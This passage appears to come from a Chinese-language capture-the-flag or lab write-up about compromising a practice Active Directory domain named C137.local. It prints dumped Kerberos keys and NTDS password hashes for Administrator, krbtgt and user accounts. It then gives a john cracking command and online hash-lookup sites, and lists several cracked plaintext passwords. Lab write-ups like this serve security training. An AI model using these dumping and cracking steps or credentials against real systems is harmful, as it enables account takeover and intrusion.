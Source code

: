     C137.local\jerrysmith:aes256-cts-hmac-sha1-96:87eb9c5715de1eb078cc6691871672019356976f093348c03b0ca21a75fc0e9f
    C137.local\jerrysmith:aes128-cts-hmac-sha1-96:ea468a0f250c15fea4e8f4c74d20c56e
    C137.local\jerrysmith:des-cbc-md5:7c40d03464e5e9a8
    C137.local\summersmith:aes256-cts-hmac-sha1-96:38060a9e953e8dde6e991db5de72e566c8a652c195b0e88d9c81e26d05ee1ce5
    C137.local\summersmith:aes128-cts-hmac-sha1-96:8851e24f50c80026e2e1578a2a3d3802
    C137.local\summersmith:des-cbc-md5:3bd09e3b73bfb0f4
    C137.local\ricksanchez:aes256-cts-hmac-sha1-96:08bc14d8f69e1ceadd0079303cd1bc434ed61d6a4895f71073662ff24eb8e4dd
    C137.local\ricksanchez:aes128-cts-hmac-sha1-96:0c428543d20db44c45cbf6948b4cf5d4
    C137.local\ricksanchez:des-cbc-md5:cdf891a75889f107
    C137.local\mortysmith:aes256-cts-hmac-sha1-96:ee5442baa6535d2580ac694ac6c0cbe3a65f137ba3ace39a18cba58a160ce73c
    C137.local\mortysmith:aes128-cts-hmac-sha1-96:697ece25fd3cffbfa24d82ab9789596c
    C137.local\mortysmith:des-cbc-md5:3280f79b131aea4c
    C137.local\bethsmith:aes256-cts-hmac-sha1-96:1e98c29b4ba43d21d200bd1802ff5109c0549621931e2f3af0c0809099405b88
    C137.local\bethsmith:aes128-cts-hmac-sha1-96:ea3285637fe5bb216bcd5cd0cfbc6663
    C137.local\bethsmith:des-cbc-md5:151f891ff4cb6b4f
    C137.local\birdman:aes256-cts-hmac-sha1-96:f20039a71fad3a9a0a374c09e55f1d1bed1600c2329fee84aada8a502d903023
    C137.local\birdman:aes128-cts-hmac-sha1-96:6507f6ac1b4ec9c23e65d1528ec92ec1
    C137.local\birdman:des-cbc-md5:2f4068527aeafb85
    DESKTOP-SDN1RPT$:aes256-cts-hmac-sha1-96:424f9a36c72c7bec7a2f7082111ed818c375e8945e6cfc9bc599b6587fb1b3ea
    DESKTOP-SDN1RPT$:aes128-cts-hmac-sha1-96:14122a1520d70f1dc6fccbf8aee330b0
    DESKTOP-SDN1RPT$:des-cbc-md5:6d20ad583729b03e
    [*] Cleaning up...
    $ cat hashes.txt.ntds
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:10e63d3f2c9924bae49241cff847e405:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    CITADEL-DC01$:1001:aad3b435b51404eeaad3b435b51404ee:33c082748b7d35ec846a513b7be92d94:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:25c9610b742a5bca9aa3801c08b8ca4e:::
    C137.local\jerrysmith:1104:aad3b435b51404eeaad3b435b51404ee:bc51f858ccacc9db408c0ba511d5d639:::
    C137.local\summersmith:1105:aad3b435b51404eeaad3b435b51404ee:26b2cc706093c4fa46e0519ec5feaeaf:::
    C137.local\ricksanchez:1106:aad3b435b51404eeaad3b435b51404ee:746447f27820a9d863eea94d176cc135:::
    C137.local\mortysmith:1108:aad3b435b51404eeaad3b435b51404ee:dc8b282b8f4e1dd3c5f95fd491ff6d8d:::
    C137.local\bethsmith:1109:aad3b435b51404eeaad3b435b51404ee:b9cc9177094af2e17b413a0cbf63fac2:::
    C137.local\birdman:1118:aad3b435b51404eeaad3b435b51404ee:944055b77ebe7d6fd80f24b5fce634fb:::
    DESKTOP-SDN1RPT$:1602:aad3b435b51404eeaad3b435b51404ee:fa6ecdc900cbeeb623cfc92297e5b653:::
    ```
    :::
3. Brute Force
    * [Online Tool 1](https://www.cmd5.com/)
    * [Online Tool 2](https://hashes.com/en/decrypt/hash)
    * john:
        `$ john hashes.txt.ntds --format=NT`

    我是直接用第二個線上工具解出一半的密碼，如下:
    ```
    10e63d3f2c9924bae49241cff847e405:)&Denver89
    31d6cfe0d16ae931b73c59d7e0c089c0:
    33c082748b7d35ec846a513b7be92d94: (None)
    25c9610b742a5bca9aa3801c08b8ca4e: (None)
    bc51f858ccacc9db408c0ba511d5d639: !BETHEYBOO12!
    26b2cc706093c4fa46e0519ec5feaeaf: (None)
    746447f27820a9d863eea94d176cc135: (None)
    dc8b282b8f4e1dd3c5f95fd491ff6d8d: Jessica@1
    b9cc9177094af2e17b413a0cbf63fac2: RedWine1!
    944055b77ebe7d6fd80f24b5fce634fb: (dimension5150)
    fa6ecdc900cbeeb623cfc92297e5b653: (None)
    ```
